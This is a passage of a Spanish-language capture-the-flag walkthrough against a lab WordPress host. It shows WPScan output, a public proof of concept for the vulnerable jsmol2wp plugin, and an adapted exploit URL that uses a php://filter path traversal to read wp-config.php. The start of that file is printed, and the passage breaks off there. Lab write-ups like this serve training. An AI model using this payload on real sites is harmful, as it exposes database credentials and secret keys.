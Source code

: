```
[+] Data Received: 8.865 MB
[+] Memory used: 321.797 MB
[+] Elapsed time: 00:01:35

Scan Aborted: Canceled by User
```

No veremos que consigamos ninguna credencial, pero veremos la siguiente seccion de `plugins` los cuales pueden ser vulnerables:

```
[i] Plugin(s) Identified:

[+] jsmol2wp
 | Location: http://www.smol.hmv/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.hmv/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.hmv/wp-content/plugins/jsmol2wp/readme.txt
```

Vamos a buscar si tuviera alguna vulnerabilidad dicho `plugin`, veremos que si hay una vulnerabilidad y nos muestra el `POC` de dicha vulnerabilidad:

URL = [PoC Vuln jsmol2wp](https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt)

Por lo que tendremos que ajustarlo a nuestras necesidades, quedando de la siguiente forma:

```
URL = http://www.smol.hmv/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

Si nos metemos aqui para poder ver el archivo llamado `wp-config.php`, veremos que nos deja:

```
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
```